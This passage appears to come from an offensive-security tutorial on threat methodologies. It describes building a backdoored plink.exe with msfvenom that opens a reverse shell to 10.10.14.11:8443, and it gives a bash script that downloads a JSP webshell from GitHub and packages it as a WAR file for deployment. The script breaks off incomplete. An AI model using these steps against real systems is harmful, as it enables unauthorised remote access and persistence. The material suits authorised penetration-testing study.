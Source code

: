 ![](images/Exploring%20Threat%20Methodologies/image005.png)<br><br>

Use the `msfvenom` utility to create common payloads such as this backdoored version of `plink.exe` that creates a reverse shell back to 10.10.14.11 on port 8443:

![](images/Exploring%20Threat%20Methodologies/image007.png)<br><br>


### Local Enumeration

You can look for opportunites to escalate privileges manually using lists like or you can gather some privesc programs/scripts ahead of time so they can be quickly deployed when engaging a target machine.

Create a script that pulls all of these down at once. Here is an example---adjust the names and locations for your own custom setup:

```bash
#!/bin/bash

# remote enumeration 
echo "> Getting Gobuster.."
apt install gobuster -y
if (command -v gobuster 1>/dev/null)
then echo "+ Gobuster installed at $(which gobuster)"

# payloads
echo "> Getting webshell..."
wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp
rm -rf webshell && rm -f wshell.war && mkdir wshell
cp index.jsp wshell/ && cd wshell
jar -cvf ../wshell.war *

# local enumeration
```